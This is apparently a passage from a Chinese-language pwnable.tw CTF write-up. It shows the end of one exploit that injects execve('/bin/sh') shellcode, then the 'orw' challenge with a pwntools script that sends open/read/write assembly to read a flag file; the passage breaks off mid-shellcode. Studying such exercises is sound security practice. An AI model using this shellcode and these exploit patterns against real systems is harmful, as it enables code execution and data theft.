 ```python

pd = b'\xbb'+p32(stack-4+0x14+4)+b'1\xd21\xc9\xb0\x0b\xcd\x80'
pd += b'a'*(0x14-len(pd))+p32(stack-4)+b'/bin///sh\x00'
p.sendline(pd)

p.interactive()
```

### 2.orw

例行检查

![](https://tva1.sinaimg.cn/large/007S8ZIlly1gjmhhgdf2fj30qi07ugnk.jpg)

ida反汇编

![](https://tva1.sinaimg.cn/large/007S8ZIlly1gjmhhggm0ej316a0c4t9m.jpg)

根据题目提示只能使用open，read，write

在kali上不管输入什么都是段错误，用ubuntu16可以正常写入shellcode

在shellcode后面

![](https://tva1.sinaimg.cn/large/007S8ZIlly1gjmhhg52zcj314c0eqagd.jpg)

exp:

```python
from pwn import *

r = 1
context(arch = 'i386', os = 'linux')
bss = 0x0804A040

if r == 1 :
	p = remote('chall.pwnable.tw',10001)
else:
	p = process('./orw')
#gdb.attach(p,'b *0x804858a')
p.recvuntil('shellcode:')


#fd = open('/home/orw/flag',0)
s = '''
xor edx,edx;
mov ecx,0;
mov ebx,0x804a094;
mov eax,5;
int 0x80;
'''

#read(fd,0x804a094,0x20)
s += '''
mov edx,0x40;
mov ecx,ebx;
mov ebx,eax;
mov eax,3;
int 0x80;
'''

#write(1,0x804a094,0x20)
s += '''
mov edx,0x40;
mov ebx,1;
mov eax,4
```